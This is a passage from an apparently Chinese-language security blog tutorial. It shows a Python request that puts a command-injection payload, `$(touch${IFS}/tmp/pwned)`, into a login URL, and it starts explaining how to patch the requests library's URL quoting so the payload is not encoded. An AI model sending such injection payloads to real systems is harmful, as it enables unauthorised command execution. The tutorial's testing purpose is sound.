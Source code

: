 ```
    }
    url = target_url + "/login/index.php?login=$(touch${IFS}/tmp/pwned)"
    data = "username=root&password=toor&commit=Login"
    response = requests.post(url=url,  headers=headers, data=data, verify=False, timeout=500, proxies=proxies)
    print(response.status_code)
```

为了便于测试，Python测试代码在发送POST数据时添加了代理，我们可以借助BurpSuite观察实际发送的内容，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2023-1-5/2-1.png)

我们可以发现，这里url做了编码，原始数据：`/login/index.php?login=$(touch${IFS}/tmp/pwned)`被编码成了`/login/index.php?login=$(touch$%7BIFS%7D/tmp/pwned)`，这会导致漏洞利用失败

## 0x03 解决方法
---

经过一些搜索，我没有找到公开的解决方法，于是决定查看Request库的细节，通过修改Request库的实现代码，去掉url编码的功能

Kali下Python Request库的代码位置为`/usr/lib/python3/dist-packages/requests/`，具体需要修改以下两个位置：

### 1.`/usr/lib/python3/dist-packages/requests/models.py`

在`/usr/lib/python3/dist-packages/requests/models.py`中的函数`def prepare_url(self, url, params)`，代码细节：

```
Line443:        url = requote_uri(urlunparse([scheme, netloc, path, None, query, fragment]))
```

查看`requote_uri()`的具体实现代码，位置：`/usr/lib/python3/dist-packages/requests/utils.py`，代码细节：

```
def requote_uri(uri):
    """Re-quote the given URI.

    This function passes the given URI through an unquote/quote cycle to
    ensure that it is fully and consistently quoted.

    :rtype: str
    """
    safe_with_percent = "!#$%&'()*+,/:;=?@[]~"
    safe_without_percent = "!#$&'()*+,/:;=?@[]~"
    try:
        # Unquote only the unreserved characters
        # Then quote only illegal characters (do not quote reserved,
        # unreserved, or '%')
        return quote(unquote_unreserved(uri), safe=safe_with_percent)
    except InvalidURL:
        # We couldn't unquote the given URI, so let's try quoting it, but
        # there may be unquoted '%'s in the URI. We need to make sure they're
        # properly quoted so they do not cause issues elsewhere.
        return quote(uri, safe=safe_without_percent)
```
